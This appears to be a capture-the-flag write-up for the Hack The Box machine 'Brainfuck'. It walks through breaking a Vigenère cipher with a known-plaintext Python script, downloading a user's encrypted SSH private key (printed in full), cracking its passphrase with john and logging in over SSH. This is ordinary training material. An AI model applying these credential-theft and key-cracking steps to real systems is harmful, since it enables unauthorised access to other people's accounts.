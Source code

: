 # 20 - SuperSecretForum

# Logging in as orestis with the new credentials.
![](vx_images/174566731675.png)


# SSH Access Post
Apparently, admin is informing other users about new ssh login policy. Notice how user Orestis signs his messages.
![](vx_images/238306336439.png)

# Encrypted post
![](vx_images/2752236094865.png)

At this point, we should be aware of the signature which is **Orestis - Hacking for fun and profit**. This encryption is subject to [Known Plain Text Attack](https://en.wikipedia.org/wiki/Known-plaintext_attack)

The plain text and the cypher text are known to us, the missing pieces of the puzzle are the encryption method and the key.

# Vigenère Cipher

The Vigenère cipher is a method of encrypting **alphabetic text** by using a series of interwoven Caesar ciphers, based on the letters of a keyword. It employs a form of polyalphabetic substitution.

<a href="https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher"><p style="text-align:right;">- Wikipedia </a></p>

The space character and the dash are not encrypted in our cyphertext either, there is a stong possibility that we are dealing with Vigenere encryption.

A quick google search "vigenere known plaintext attack" points us to [this post](https://crypto.stackexchange.com/questions/12195/find-the-key-to-a-vigen%C3%A8re-cipher-given-known-ciphertext-and-plaintext) on crypto.stackexchange.com

# Python implementation of the formula from stackexchange
Don't forget to remove nonalphabetic characters

```py
#vigenere.py
import string
alphabet=string.ascii_lowercase
plaintext ='OrestisHackingforfunandprofit'
ciphertext ='PieagnmJkoijegnbwzwxmlegrwsnn'
key = ''

for i in range(len(plaintext)):
    dec = (ord(ciphertext[i])-ord(plaintext[i])) % 26
    key += alphabet[dec]
print(key)
```

# Key
```py
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ python3  vigenere.py 
brainfuckmybrainfuckmybrainfu
```

# A Web Based Decryption Tool rumkin.com

 ![](vx_images/1028708737496.png)

Let's download his private key and take a look at it.

```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ wget https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa --no-check-certificate
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ cat id_rsa 
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6904FEF19397786F75BE2D7762AE7382

mneag/YCY8AB+OLdrgtyKqnrdTHwmpWGTNW9pfhHsNz8CfGdAxgchUaHeoTj/rh/
B2nS4+9CYBK8IR3Vt5Fo7PoWBCjAAwWYlx+cK0w1DXqa3A+BLlsSI0Kws9jea6Gi
W1ma/V7WoJJ+V4JNI7ufThQyOEUO76PlYNRM9UEF8MANQmJK37Md9Ezu53wJpUqZ
7dKcg6AM/o9VhOlpiX7SINT9dRKaKevOjopRbyEFMliP01H7ZlahWPdRRmfCXSmQ
zxH9I2lGIQTtRRA3rFktLpNedNPuZQCSswUec7eVVt2mc2Zv9PM9lCTJuRSzzVum
oz3XEnhaGmP1jmMoVBWiD+2RrnL6wnz9kssV+tgCV0mD97WS+1ydWEPeCph06Mem
dLR2L1uvBGJev8i9hP3thp1owvM8HgidyfMC2vOBvXbcAA3bDKvR4jsz2obf5AF+
Fvt6pmMuix8hbipP112Us54yTv/hyC+M5g1hWUuj5y4xovgr0LLfI2pGe+Fv5lXT
mcznc1ZqDY5lrlmWzTvsW7h7rm9LKgEiHn9gGgqiOlRKn5FUl+DlfaAMHWiYUKYs
LSMVvDI6w88gZb102KD2k4NV0P6OdXICJAMEa1mSOk/LS/mLO4e0N3wEX+NtgVbq
ul9guSlobasIX5DkAcY+ER3j+/YefpyEnYs+/tfTT1oM+BR3TVSlJcOrvNmrIy59
krKVtulxAejVQzxImWOUDYC947TXu9BAsh0MLoKtpIRL3Hcbu+vi9L5nn5LkhO/V
gdMyOyATor7Amu2xb93OO55XKkB1liw2rlWg6sBpXM1WUgoMQW50Keo6O0jzeGfA
VwmM72XbaugmhKW25q/46/yL4VMKuDyHL5Hc+Ov5v3bQ908p+Urf04dpvj9SjBzn
schqozogcC1UfJcCm6cl+967GFBa3rD5YDp3x2xyIV9SQdwGvH0ZIcp0dKKkMVZt
UX8hTqv1ROR4Ck8G1zM6Wc4QqH6DUqGi3tr7nYwy7wx1JJ6WRhpyWdL+su8f96Kn
F7gwZLtVP87d8R3uAERZnxFO9MuOZU2+PEnDXdSCSMv3qX9FvPYY3OPKbsxiAy+M
wZezLNip80XmcVJwGUYsdn+iB/UPMddX12J30YUbtw/R34TQiRFUhWLTFrmOaLab
Iql5L+0JEbeZ9O56DaXFqP3gXhMx8xBKUQax2exoTreoxCI57axBQBqThEg/HTCy
IQPmHW36mxtc+IlMDExdLHWD7mnNuIdShiAR6bXYYSM3E725fzLE1MFu45VkHDiF
mxy9EVQ+v49kg4yFwUNPPbsOppKc7gJWpS1Y/i+rDKg8ZNV3TIb5TAqIqQRgZqpP
CvfPRpmLURQnvly89XX97JGJRSGJhbACqUMZnfwFpxZ8aPsVwsoXRyuub43a7GtF
9DiyCbhGuF2zYcmKjR5EOOT7HsgqQIcAOMIW55q2FJpqH1+PU8eIfFzkhUY0qoGS
EBFkZuCPyujYOTyvQZewyd+ax73HOI7ZHoy8CxDkjSbIXyALyAa7Ip3agdtOPnmi
6hD+jxvbpxFg8igdtZlh9PsfIgkNZK8RqnPymAPCyvRm8c7vZFH4SwQgD5FXTwGQ
-----END RSA PRIVATE KEY-----
```

# Cracking the passphrase of the private key by using john 

Luckly, we know that it's crackable

![](vx_images/2108448118321.png)

# Setting up the environment for john

Let's download and run ss2tojohn.py

```bash
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
┌──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ python3 ssh2john id_rsa > id_rsa.john
──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ john id_rsa.john -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
1g 0:00:00:03 DONE (2021-05-27 19:18) 0.2732g/s 3918Kp/s 3918Kc/s 3918KC/sa6_123..*7¡Vamos!
Session completed
```


# SSH
```bash
──(kali㉿kali)-[10.10.14.9/23]-[~/htb/brainfuck]
└─$ ssh -l orestis -i id_rsa brainfuck.htb
Enter passphrase for key 'id_rsa': 3poulakia!
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


You have mail.
Last login: Wed May  3 19:46:00 2017 from 10.10.11.4
orestis@brainfuck:~$ 
```
